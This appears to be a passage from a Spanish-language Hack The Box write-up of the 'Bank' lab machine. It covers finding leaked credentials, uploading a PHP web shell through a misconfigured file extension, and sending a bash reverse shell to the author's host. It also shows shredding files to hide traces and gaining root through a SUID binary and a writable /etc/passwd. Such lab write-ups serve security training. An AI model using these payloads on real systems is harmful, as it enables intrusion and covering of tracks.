dd764f1f57fc65256e254f9c0f34b11b.acc 582
f4af6b16beb3dbb6468ecf0c959bd090.acc 582
fe9ffc658690f0452cd08ab6775e62da.acc 582
```

`cat output | sed '/^\s*$/d' | grep -vE "584|585|583"` Esta expresión regular indica lo siguiente: 
1. `cat output`: El comando `cat` se utiliza para concatenar archivos y mostrar su contenido en la salida estándar (generalmente la terminal). En este caso, estamos mostrando el contenido del archivo "output" en la pantalla.
    
2. `sed '/^\s*$/d'`: El comando `sed` es un editor de flujo (stream editor) que se utiliza para realizar transformaciones en el texto. En este caso, el patrón `/^\s*$/` se utiliza para encontrar y eliminar todas las líneas que están en blanco o que contienen solo espacios (líneas vacías). El modificador `d` indica que estas líneas deben eliminarse.
3.  `/`: Las barras inclinadas / son delimitadores utilizados alrededor de la expresión regular en `sed`.
4. `^`: El sombrero (^) es un metacaracter que representa el inicio de una línea.
5. `\s*`: El metacaracter `\s` representa un espacio en blanco, y el cuantificador `*` significa que se puede repetir cero o más veces. En conjunto, `\s*` representa cero o más espacios en blanco consecutivos. 
5. `$`: El símbolo de dólar ($) es otro metacaracter que representa el final de una línea.
En conjunto, la expresión regular `/^\s*$/` busca líneas que contienen cero o más espacios en blanco desde el inicio hasta el final de la línea, lo que significa que son líneas en blanco o líneas que contienen solo espacios. Estas líneas son eliminadas del archivo o de la entrada proporcionada por el comando `sed`.
6. `grep -vE "584|585|583"`: El comando `grep` se utiliza para buscar patrones en el texto. En este caso, `-v` se utiliza para invertir la búsqueda, lo que significa que se mostrarán todas las líneas que NO coinciden con el patrón especificado. El modificador `-E` indica que se utilizará una expresión regular extendida.

- Vemos que existe un archivo con un peso diferente: 68576f20e9732f1b2edc4df5b8533230.acc de 257 vamos a descargarnos ese erchivo.




```ruby
cat 68576f20e9732f1b2edc4df5b8533230.acc
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 68576f20e9732f1b2edc4df5b8533230.acc
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ --ERR ENCRYPT FAILED
   2   │ +=================+
   3   │ | HTB Bank Report |
   4   │ +=================+
   5   │ 
   6   │ ===UserAccount===
   7   │ Full Name: Christos Christopoulos
   8   │ Email: chris@bank.htb
   9   │ Password: !##HTBB4nkP4ssw0rd!##
  10   │ CreditCards: 5
  11   │ Transactions: 39
  12   │ Balance: 8842803 .
  13   │ ===UserAccount===
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
- Encontramos  credenciales de acceso 





<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

En esta etapa, el objetivo principal es simular un ataque real y probar la capacidad del sistema para resistir a posibles ataques y explotaciones.

<h3 style="text-align:center" id="subidarchivos">SUBIDA DE ARCHIVOS</h3><hr>

- Creamos un archivo para intentar subir en el área de support 

```php
<?php
	system($_RESQUEST['cmd']);
?>
```



- Pero solo me permite subir imágenes.



- siempre es recomendable ver el código fuente por si tenemos alguna pista:



- Este comentario indica que se ha añadido la extensión de archivo .htb para que se ejecute como php.





- Nos enviamos una shell a la máquina a travaes del one liner `bash -c "bash -i >& /dev/tcp/10.10.14.168/443 0>&1"`




```ruby
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.10.29] 58932
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
www-data@bank:/var/www/bank/uploads$ 

```

- Borramos todos los archivos para no dejar rastro con la siguiente linea de comandos: `shred -zun 10 -v cdm.htb`

- Esta es la primera flag

```ruby
www-data@bank:/var/www$ cd /home/
www-data@bank:/home$ ls 
chris
www-data@bank:/home$ cd chris/
www-data@bank:/home/chris$ ls
user.txt
www-data@bank:/home/chris$ cat user.txt 
b500c02422b0f328632ce17c8a4629e5

```
<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

<h3 style="text-align:center" id="suid">ESCALADA DE PRIVILEGIOS POR SUID</h3><hr>


- Confirmamos la versión del sistema.

```ruby
www-data@bank:/home/chris$ lsb_release -a 
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
www-data@bank:/home/chris$ 
```

- Lo primero que haces es un `id` para ver a que grupos pertenecemos

```ruby
www-data@bank:/home/chris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- Con `sudo -l ` vemos que permisos de sudo tenemos, y no tenemos permisos.

```ruby
www-data@bank:/home/chris$ sudo -l
[sudo] password for www-data: 
```
- Con `find / -perm -4000 2>/dev/null` buscamos archivos con permisos SUID

```ruby
www-data@bank:/home/chris$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
- si vemos el tipo de archivo que es emergency, es un binario de 32 bit

```ruby
www-data@bank:/home/chris$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
```
 
```ruby
www-data@bank:/home/chris$ /./var/htb/bin/emergency
# whoami
root
```
- Con solo ejecutar el SUID ya estamos como root
- Obtenemos la segunda flag

```ruby
# cat root.txt  
dd86ed1503f7f835b5b1caae602455bb
# 
```

<h3 style="text-align:center" id="escritura">ESCALADA DE PRIVILEGIOS ARCHIVOS CON CAPACIDAD DE ESCRITURA</h3><hr>

- Buscar archivos que tengan permisos de escritura:

```ruby
find / -writable -type f 2>/dev/null | grep -vE "python3|proc"
```


- El etc/passwd 

```ruby
www-data@bank:/home/chris$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1252 May 28  2017 /etc/passwd

```
- Ahora generamos una contraseña que pondremos al de passwd de la siguiente manera: `openssl passwd` y puedes poner cualquiera, este caso coloque hola, como respuesta nos da una encriptada que pondemos en el passwd.

```ruby
ww-data@bank:/home/chris$ openssl passwd
Password: 
Verifying - Password: 
Clwm7373K1t5c
www-data@bank:/home/chris$ 

```


- Ahora nos cambiamos a root y colocamos hola como contraseña.

<h3 style="text-align:center" id="flags">FLAGS</h3><hr>

- Flag de root:

```ruby
root@bank:/home/chris# cd /root/
root@bank:~# ls
root.txt
root@bank:~# cat root.txt 
dd86ed1503f7f835b5b1caae602455bb

```


<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em> makelarisjr</em>, muchas gracias por la creación de Bank, la disfrute mucho. <a href="https://app.hackthebox.com/users/95" target="_blank">HTB</a>.
